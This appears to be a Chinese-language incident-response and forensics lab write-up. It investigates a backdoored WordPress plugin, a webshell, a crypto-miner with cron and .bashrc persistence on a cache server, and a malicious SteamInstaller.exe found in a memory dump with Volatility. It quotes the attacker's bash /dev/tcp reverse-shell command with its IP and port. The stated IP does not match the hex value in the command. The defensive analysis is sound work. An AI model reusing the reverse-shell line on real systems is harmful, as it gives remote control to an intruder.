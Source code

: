 # 事件响应
## Web Server
### 任务
- 查找并提交存在后门插件的名称与版本号，并指出该后门的功能
- 分析并指出攻击者如何获取到应用管理员权限
- 提交上述攻击所使用的URL以及获取到管理员信息时执行的完整语句（含注释）
- 请阐述攻击者如何在获得管理员权限后，写入Webshell以提升其权限
- 查找攻击者获得写入的Webshell文件绝对路径
- 查看并提交攻击者写入的Webshell内容
- 分析反弹Shell时使用的恶意IP地址和端口
- 分析攻击者在服务器上开启的端口号及其目的
### 调查过程
在webserver中查看历史命令，计划任务，后门用户和端口，进程
存在其他的端口8024
![](attachment/Pasted%20image%2020230220121713.png)
在Web Server查看本机IP后利用同网段主机访问对应的web服务，发现为WordPress的网站，于是在本机去访问插件对应的目录进行调查
`/var/www/html/wp-content/plugins`
发现在 ==hello.php== 中存在后门代码，功能是能够进行sql查询，但是语句经过rot13和base64的加密
![](attachment/Pasted%20image%2020230219141212.png)

版本在文件开头的注释中
![](attachment/Pasted%20image%2020230219141339.png)

在/var/log/apache2 中发现有日志记录，参数名与插件后门一致
![](attachment/Pasted%20image%2020230219145338.png)
在foot-dark.php中又有命令执行相关日志
![](attachment/Pasted%20image%2020230219150410.png)

查看后发现这个页面可以进行命令执行
![](attachment/Pasted%20image%2020230219150548.png)

关于日志中的加密语句，利用php来进行解密会更加合适和快捷
```php
<?php
$file = 'log.txt';
$file_data = file_get_contents($file);
$data_array = explode("\n", $file_data);
foreach($data_array as $sql_str) {
	echo $sql_str;
	$trans = base64_decode(str_rot13(urldecode($sql_str)));
	echo $trans;
	file_put_content('out.txt',$trans.PHP_EOL, FILE_APPEND);
}
?>
```
细看解密后的log后会发现有一行看了user表，执行后效果是这样
![](attachment/Pasted%20image%2020230220121458.png)
获得用户名与密码
同样对日志中的webshell相关的日志url解码分析
![](attachment/Pasted%20image%2020230220140730.png)
反弹shell
`bash -c "bash i >& /dev/tcp/0x1d205d4/12450 0>&1"`
IP:1.210.5.212
## Cache server
### 工作任务
- 分析攻击者在服务器上开启的端口号及其目的查找并提交攻击者隐藏在系统中的恶意程序的完整路径（多个）
- 分析恶意程序的类型与目的
- 查找并提交被篡改的系统程序名称
- 分析攻击者如何使恶意程序维持启动
- 分别使用一句话简要描述载入脚本（sh文件）中各模块的功能与目的
### 调查过程
netstat -antlp
![](attachments/Pasted%20image%2020230227185016.png)
发现6379端口
ps aux
![](attachments/Pasted%20image%2020230227185321.png)
直接whereis hezb这是一个挖矿木马
`/usr/bin/hezb`
sudo ss -ntlp
![](attachments/Pasted%20image%2020230227190906.png)
当cd到 /root时，有脚本执行了
![](attachments/Pasted%20image%2020230227191240.png)
直接whereis
![](attachments/Pasted%20image%2020230227191422.png)
`/usr/bin/ldr.sh`
在root下查看定时任务
![](attachments/Pasted%20image%2020230227191918.png)
。bashrc里也有一个这样的脚本启动

# 数字调查取证
## Dump.raw
### 工作任务
- 识别内存中的恶意进程
- 查找并提交恶意程序在硬盘中上的完整路径
- 分析PE文件以描述其行为
- 分析PE文件寻找攻击者向外传递收集到的信息发送方的地址
### 调查过程
查看镜像类型
![](attachments/Pasted%20image%2020230227090948.png)
查看进程并输入到文本
volatility -f  \[filename\] --profile=\[imageinfo\]  pslist > pslist.txt
![](attachments/Pasted%20image%2020230227091850.png)
volatility -f  \[filename\] --profile=\[imageinfo\]  pstree > pstree.txt
![](attachments/Pasted%20image%2020230227091918.png)
导出对应进程文件
volatility -f \[filename\] --profile=\[imageinfo\] memdump -p \[PID\] -D ./

volatility -f\[filename\] --profile=\[imageinfo\]  filescan
![](attachments/Pasted%20image%2020230227092450.png)
文件路径： `\Device\HarddiskVolume1\User\IEUser\Downloads\SteamInstaller.exe`
在这个dmp文件里面找敏感内容
![](attachments/Pasted%20image%2020230227093739.png)

将exe文件导出
volatility -f \[filename\] --profile=\[imageinfo\] dumpfiles -Q \[偏移地址\] --dump-dir ./
IDA进行逆向
![](attachments/Pasted%20image%2020230227104206.png)